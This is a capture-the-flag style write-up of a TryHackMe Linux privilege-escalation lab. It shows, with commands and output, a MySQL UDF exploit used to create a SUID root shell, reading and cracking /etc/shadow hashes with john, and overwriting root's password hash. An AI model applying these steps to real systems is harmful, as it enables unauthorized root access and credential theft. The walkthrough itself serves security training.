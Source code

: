 # Room
https://tryhackme.com/room/linuxprivesc

# Task 1 - Deploy VM and connect with SSH
SSH to the server and then check group associations using the id command
* id
    ```
    user@debian:~$ id
    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)    
    ```

# Task 2 - Service Exploits
When the MySQL service runs as root, there may be an exploit you can take advantage of that uses User Defined Functions.
* cd to the udf directory and compile the exploit code
    ```
    user@debian:~$ cd /home/user/tools/mysql-udf/
    user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC
    user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
    user@debian:~/tools/mysql-udf$ ls -lrta raptor*
    -rw-r--r-- 1 user user 3378 May 15  2020 raptor_udf2.c
    -rw-r--r-- 1 user user 5344 Jan 26 18:38 raptor_udf2.o
    -rwxr-xr-x 1 user user 8272 Jan 26 18:39 raptor_udf2.so

    https://www.exploit-db.com/exploits/1518
    ```
* connect to MySQL as the root user and create a User Defined Function
    ```
    user@debian:~/tools/mysql-udf$ mysql -u root
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 35
    Server version: 5.1.73-1+deb6u1 (Debian)

    Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql> use mysql;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> create table foo(line blob);
    Query OK, 0 rows affected (0.00 sec)

    mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
    Query OK, 1 row affected (0.00 sec)

    mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    Query OK, 1 row affected (0.00 sec)

    mysql> create function do_system returns integer soname 'raptor_udf2.so';
    Query OK, 0 rows affected (0.00 sec)

    mysql> 
    ```
* use the function you just created to copy /bin/bash to a temp file and then give that file the SUID permission, finally jump into the shell and verify you are root
    ```
    mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
    +------------------------------------------------------------------+
    | do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
    +------------------------------------------------------------------+
    |                                                                0 |
    +------------------------------------------------------------------+
    1 row in set (0.01 sec)

    mysql> exit
    Bye
    user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
    rootbash-4.1# whoami
    root
    rootbash-4.1# 
    ```
* remove the file when you are finished
    ```
    mysql> select do_system('rm -rf /tmp/rootbash');
    +-----------------------------------+
    | do_system('rm -rf /tmp/rootbash') |
    +-----------------------------------+
    |                                 0 |
    +-----------------------------------+
    1 row in set (0.00 sec)

    mysql> exit
    Bye
    user@debian:/tmp$ ls -lrta /tmp/rootbash
    ls: cannot access /tmp/rootbash: No such file or directory
    ```
# Task 3 - Weak File Permissions - Readable /etc/shadow
/etc/shadow has password hashes, it is only readable by root
* check the /etc/shadow file to see if it is misconfigured and allows you to read it
    ```
    user@debian:~$ ls -lrta /etc/shadow
    -rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow

    user@debian:~$ cat /etc/shadow
    root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
    daemon:*:17298:0:99999:7:::
    bin:*:17298:0:99999:7:::
    sys:*:17298:0:99999:7:::
    sync:*:17298:0:99999:7:::
    games:*:17298:0:99999:7:::
    man:*:17298:0:99999:7:::
    lp:*:17298:0:99999:7:::
    mail:*:17298:0:99999:7:::
    news:*:17298:0:99999:7:::
    uucp:*:17298:0:99999:7:::
    proxy:*:17298:0:99999:7:::
    www-data:*:17298:0:99999:7:::
    backup:*:17298:0:99999:7:::
    list:*:17298:0:99999:7:::
    irc:*:17298:0:99999:7:::
    gnats:*:17298:0:99999:7:::
    nobody:*:17298:0:99999:7:::
    libuuid:!:17298:0:99999:7:::
    Debian-exim:!:17298:0:99999:7:::
    sshd:*:17298:0:99999:7:::
    user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
    statd:*:17299:0:99999:7:::
    mysql:!:18133:0:99999:7:::
    ```
* crack root's hash with john
    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt h1.txt                           

    Using default input encoding: UTF-8                                                                                                                                             
    Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])                                                                                                     
    Cost 1 (iteration count) is 5000 for all loaded hashes                                                                                                                          
    Will run 2 OpenMP threads                                                                                                                                                       
    Press 'q' or Ctrl-C to abort, almost any other key for status
    [removed]      (?)
    1g 0:00:00:01 DONE (2021-01-26 18:49) 0.7692g/s 1083p/s 1083c/s 1083C/s cuties..tagged
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
# Task 4 - Weak File Permissions - Writable /etc/shadow
If the /etc/shadow file is writeable, you can create a new password hash with a password of your choosing, and overwrite an existing one
* Generate a new password
    ```
    user@debian:~$ mkpasswd -m sha-512 cool
    $6$SrDC5MGFC.3uMi$MW1nLHduoLKd1C85/5n0a85rZwKhcTQivbI.4/D.lSBZToHNjOFEmS0cVKnq54MOVrTj4/LEilbr2ACMJMAl60
    ```
* Edit the /etc/shadow file and replace root's password hash with the one you just created
    ```
    user@debian:~$ vim /etc/shadow
    user@debian:~$ su root
    Password: 
    root@debian:/home/user#     
    ```